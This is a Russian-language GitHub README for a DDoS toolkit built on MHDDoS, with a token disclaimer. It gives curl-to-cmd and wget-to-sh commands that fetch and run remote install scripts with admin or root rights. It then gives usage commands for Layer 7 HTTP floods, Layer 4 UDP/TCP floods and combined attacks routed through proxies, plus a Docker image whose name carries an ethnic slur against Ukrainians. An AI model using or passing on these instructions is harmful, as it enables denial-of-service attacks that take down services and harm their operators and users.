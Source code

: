 ﻿# :red_circle: scripts 

				  ❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗
                                  ❗❗❗❗❗❗❗❗❗ДИСКЛЕЙМЕР❗❗❗❗❗❗❗❗❗❗❗❗❗❗
                                  ❗Данный софт предоставлен в ознакомительных целях. ❗❗❗❗❗❗
                                  ❗Автор не несёт ни какой ответственности за выполняемый код. ❗❗
                                  ❗Все действия вы производите на свой страх и риск. ❗❗❗❗❗❗
				  ❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗❗


### :large_orange_diamond: Для установки на Windows:
1) Запустите cmd от администратора
2) Выполните команду  curl -s https://raw.githubusercontent.com/mr-kritik/scripts/main/install.bat | cmd

### :large_orange_diamond: Для установки на Kali Linux :
1) Открываем консоль
2) sudo su
3) wget -O - https://raw.githubusercontent.com/mr-kritik/scripts/main/start_install_linux.sh | sh


Дождитесь полной установки!
На Windows будет установлен Docker, Python v.3, Git + сам софт для атаки.
На Linux будет установлено wget, Python v.3, git, Docer + сам софт для атаки.

На windows создастся папка C:\VZ
На Linux в вашей домашней папке создастся папка VZ

# ЗАПУСК СОФТА :alien:
# 1. Более лояльный, менее агрессивный. :no_entry:
##### :pushpin: WINDOWS : 
Запускаем cmd от администратора, переходим в папку cd C:\VZ
##### :pushpin: LINUX : 
Запускаем консоль пишем sudo su, переходим в папку cd $HOME/VZ

##### :pushpin: WIN LINUX : 
python3 runner.py <Цель> --http-methods <Метод> -t <Угрозы> --rpc <Подключения> -p <Обновление> --debug



	Где :
		a) Цель – Это ссылка в формате https://example.com
		b) Метод (--http-methods) – Один из методов MHDDoS (CFB, DGB, BYPASS, GET  и т.д., подробнее о методах будет ниже).
		c) Угрозы (-t) – Количество запросов/пакетов на цель (1 ядро = 1000).
		d) Подключения(--rpc) – Количество запросов, отправляемых на 1 прокси-сервер, после чего прокси-сервер транслирует эти запросы на цель.
		f) Обновление (-p) – Период времени в секундах, через который ваше соединение с прокси-серверами будет обновляться (прокси-серверы имеют свойства падать, сбрасывать соединение и т.д.). По умолчанию 900 секунд / 15 минут.
		g) --debug – Нужен для того, чтобы мы видели лог атаки (информация по выводу будет ниже). 


## :recycle: Методы Атаки:

:heavy_check_mark: Атака на Layer 7 (HTTP(S) по URL) 
```
python3 runner.py https://example.com https://example1.com -t 1000 --debug
```
:heavy_check_mark: Атака на Layer 7 (HTTP по IP + PORT)
```
python3 runner.py 192.168.2.1:443 192.168.1.1:80 -t 1000 --debug
```

:heavy_check_mark: Атака на Layer 4 (по UDP адресам)
:warning::warning::warning:ВНИМАНИЕ НУЖНО ВПН ПОДКЛЮЧЕНИЕ:warning::warning::warning:
```
python3 runner.py udp://192.168.2.10:53 -t 1000 --debug
```
:heavy_check_mark: Комбинированная атака
```
python3 runner.py tcp://192.168.2.10:53 https://example1.com 
```



## :recycle: Вывод из атаки :
- PPS - количество установленных соединений с целью атаки
- BPS - вес пакетов в байтах, килобайтах, мегабайтах. Оптимально в районе 500 Кб. Может быть и меньше, а может быть гораздо больше. Главное не = 0
- % - когда произойдёт смена прокси в %


# 2. Более агресивный через Docker. :no_entry:

docker run -it --rm ghcr.io/mr-kritik/ddos_ukropi:latest <Цель> --http-methods <Метод> -t <Угрозы> --rpc <Подключения> -p <Обновление> --debug

расшифровку можете взять выше






